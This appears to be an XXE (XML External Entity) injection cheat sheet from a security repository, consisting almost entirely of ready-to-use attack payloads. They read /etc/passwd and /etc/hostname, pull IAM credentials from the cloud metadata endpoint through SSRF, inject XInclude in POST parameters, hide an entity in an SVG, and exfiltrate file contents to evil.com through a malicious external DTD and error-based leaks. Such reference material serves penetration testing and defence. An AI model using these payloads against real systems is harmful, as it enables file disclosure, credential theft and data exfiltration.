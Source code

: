 ```yaml
---
title: XXE Injection
description: XXE Injection cheatsheet
---
```


# XXE Injection

XXE (XML External Entity) attacks are a type of injection attack in which an attacker attempts to exploit a vulnerability in an application that parses XML input. This vulnerability can allow an attacker to inject malicious code into the XML input, which is then executed by the application.

## Attacks

### Read files

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### XML Parameter entities

```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

### XML Injection (not in DOCTYPE)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

# POST parameters example :
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### Exfil using SVG images

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### Blind XXE - Exfil using DTD

Send to server :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://evil.com/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Malicious DTD (text/xml) :


```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://evil.com//?x=%file;'>">
%eval;
%exfiltrate;
```

### Error based DTD

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```